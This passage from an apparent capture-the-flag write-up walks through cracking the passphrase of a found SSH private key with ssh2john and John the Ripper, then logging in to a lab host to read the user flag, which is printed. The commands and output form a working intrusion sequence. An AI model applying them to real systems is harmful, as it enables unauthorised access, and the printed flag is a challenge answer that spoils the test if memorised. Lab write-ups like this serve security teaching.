 ## SSH private key

This location hosts a `secretKey` file that is likely a SSH private key. Let's try to connect as john using this key:

~~~
kali@kali:/data/Gaming_Server/files$ chmod 400 secretKey 
kali@kali:/data/Gaming_Server/files$ ssh -i secretKey john@10.10.165.55
load pubkey "secretKey": invalid format
Enter passphrase for key 'secretKey': 
john@10.10.165.55's password: 
~~~

The key is password protected. This is likely where we need the dictionary. Let's brute force the key with John:

~~~
kali@kali:/data/Gaming_Server/files$ /data/src/john/run/ssh2john.py secretKey > ssh.hash
kali@kali:/data/Gaming_Server/files$ /data/src/john/run/john ssh.has --wordlist=dict.lst
stat: ssh.has: No such file or directory
kali@kali:/data/Gaming_Server/files$ /data/src/john/run/john ssh.hash --wordlist=dict.lst
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)
1g 0:00:00:00 DONE (2020-09-02 13:30) 11.11g/s 2466p/s 2466c/s 2466C/s baseball..starwars
Session completed. 
~~~

## SSH access and user flag

John has successfully found the password: `letmein`. Now, we can connect and get the user flag:

~~~
kali@kali:/data/Gaming_Server/files$ ssh -i secretKey john@10.10.165.55
john@exploitable:~$ cat user.txt 
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
~~~

User flag: `a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`


# What is the root flag?

## John belongs to the lxd group

We can't check john's privileges with `sudo -l` because it requires john's password that we don't have. Searching for root files with SUID bit doesn't reveal anything that would help to elevate our privileges.
